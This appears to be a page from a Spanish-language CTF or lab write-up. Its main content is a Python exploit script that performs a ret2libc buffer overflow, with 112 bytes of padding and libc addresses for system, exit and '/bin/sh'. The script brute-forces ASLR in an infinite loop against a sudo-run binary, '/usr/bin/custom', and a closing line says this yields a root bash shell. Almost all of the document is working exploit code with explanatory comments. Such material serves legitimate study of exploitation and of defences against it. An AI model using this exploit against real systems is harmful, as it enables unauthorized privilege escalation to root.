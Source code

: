 ```python
#!/usr/bin/python3

import subprocess
import sys
from struct import pack

offset = 112
before_eip = b"A"*112

# ret2libc --> system + exit + "bin_sh"

# Direccion que elegimos aleatoriamente al hacer ldd /usr/bin/custom
base_libc_addr = 0xb7d6c000

# c4sp@ubuntu:/tmp$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
#    141: 0002e9e0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#   1457: 0003adb0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

# c4sp@ubuntu:/tmp$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
#  15bb2b /bin/sh

system_addr_off = 0x0003adb0
exit_addr_off = 0x0002e9e0
bin_sh_addr_off = 0x0015bb2b
# Completamos con dos ceros para completar la longitud de la direccion 0x15bb2b

# Calculando las direcciones reales a traves de la suma de la direccion base que teniamos mas el offset que conseguimos con las herramientas anteriores
system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L", base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = before_eip + system_addr + exit_addr + bin_sh_addr # Aca en base a las direcciones que obtuvimos efectuamos el ret2libc --> system + exit + "bin_sh"

# Ejecutamos el programa muchas veces con un bucle infinito hasta que coincida la direccion de nuestro base_libc_addr que elegimos con ldd
# En el momento exacto que libc valga 0xb7d6c000, ganaremos acceso al usuario root

while True:

	result = subprocess.run(["sudo", "/usr/bin/custom", payload])

	if result.returncode == 0:
		print("\n\n[!] Se ha salido correctamente del programa")
		sys.exit(0)
```

Ahora cuando ejecutemos el script veremos que después de unos segundos **ganaremos acceso a una bash como usuario root**.
